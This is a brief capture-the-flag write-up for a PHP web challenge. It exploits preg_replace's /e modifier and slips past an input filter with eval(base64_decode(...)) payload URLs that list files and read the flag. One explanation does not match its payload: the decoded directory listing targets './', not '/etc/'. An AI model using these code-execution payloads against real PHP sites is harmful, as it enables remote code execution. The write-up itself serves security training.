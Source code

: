 **Challenge**: http://wtf-php.darkarmy.xyz/

robots.txt: `?lmao=1` (source code)

preg_replace payload: `<command>, /W/e, $text`
- As the content of `$text` variable starts with `Welcome`, we need a regex to select it `/W/e`.

phpinfo: `http://easy-php.darkarmy.xyz/?bruh=phpinfo();&nic3=/W/e`

We must bypass `is_payload_danger` function, which sanitize our input. As the `eval` function is available, we can encode our input in base64 and then execute as `eval(base64_decode(<encoded command>))`.

Directory listing: `http://easy-php.darkarmy.xyz/?bruh=eval(base64_decode(%22cHJpbnRfcihzY2FuZGlyKCIuLyIpKTs=%22));&nic3=/W/e`
    It means: `print_r(scandir("/etc/"));`

Getting the flag: `http://easy-php.darkarmy.xyz/?bruh=eval(base64_decode(%22aGlnaGxpZ2h0X2ZpbGUoImZsYWcyMTBkOWY4OGZkMWRiNzFiOTQ3ZmJkY2UyMjg3MWI1Ny5waHAiKTs=%22));&nic3=/W/e`   It means: `highlight_file("flag210d9f88fd1db71b947fbdce22871b57.php");`

Reference: https://medium.com/@roshancp/command-execution-preg-replace-php-function-exploit-62d6f746bda4

**Flag**: darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}
